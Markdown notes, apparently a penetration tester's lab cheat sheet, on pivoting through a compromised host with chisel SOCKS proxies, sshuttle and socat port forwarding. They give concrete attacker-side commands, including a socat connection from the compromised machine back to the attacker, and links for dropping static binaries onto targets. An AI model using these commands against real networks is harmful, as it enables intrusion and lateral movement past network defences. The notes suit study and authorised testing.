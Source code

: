     - Forward SOCKS proxy
        - from attacker machine to compromised machine
        - on the compromised host
            - `./chisel server -p LISTEN_PORT --socks5`
        - On our own attacking machine
            - `./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`
        - For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine

    - NOTE - Just like SOCKS proxy with SSH Tunnel in chisel also you will have to use word `socks4` or `socks5` for every proxy command, similar to SSH Tunnel we can use `proxychains` or `foxyproxy` here as well



###### SHuttle (proxy)

- Requirements
    - needs Access to the compromised server via `SSH`
    - `Python` also needs to be installed on the server
    - sshuttle only works on Linux targets.

- From Attacker machine to Compromised Machine for target machine
- Syntex
    - `sshuttle -r username@address subnet`
    - `sshuttle -r username@address -N`
    - - `sshuttle -r user@address SUBNET --ssh-cmd "ssh -i KEYFILE" -x compromisedMachineIP`

- Example use
    - `sshuttle -r root@10.200.141.200 10.200.141.0/24 --ssh-cmd "ssh -i ssh_key" -x 10.200.141.200`

###### SOCAT (Port Forwarding)

- Requirements
    - socat binary
        - https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
        - https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download

- By opening a port on compromised server
    - On compromised server
        - `./socat tcp-l:9090,fork,reuseaddr tcp:10.200.141.150:80 &`
    - From Attacker machine
        - `curl http://10.200.141.200:9090`

- without opening any port on Compromised server
    - On Attacker machine
        - `socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`
    - On Compromised machine
        - `./socat tcp:10.50.130.14:8001 tcp:10.200.141.150:80,fork &`
    - From Attacker machine
        - `curl http://127.0.0.1:8000`



### Pivoting using metasploit
